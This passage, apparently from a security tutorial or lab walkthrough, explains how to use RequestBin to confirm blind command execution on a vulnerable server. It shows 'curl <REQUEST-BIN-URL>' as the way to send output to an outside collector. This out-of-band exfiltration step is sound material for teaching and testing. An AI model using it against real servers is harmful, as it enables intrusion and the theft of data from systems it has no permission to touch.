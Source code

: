 To read the output of the command and to check if that command was executed on the vulnerable server, we will send a request to [RequestBin](https://requestbin.io).
[RequestBin](https://requestbin.io) gives you a URL that will collect requests made to it and let you inspect them in a human-friendly way.

You need just to create a subdomain by using the Create a RequestBin button:

![requestbin.png](../media/requestbin.png)

Now you have an associated URL to your request bin and you can send requests to this URL getting all that information needed:

```console
curl <REQUEST-BIN-URL>
```

![requestbin2.png](../media/requestbin2.png)
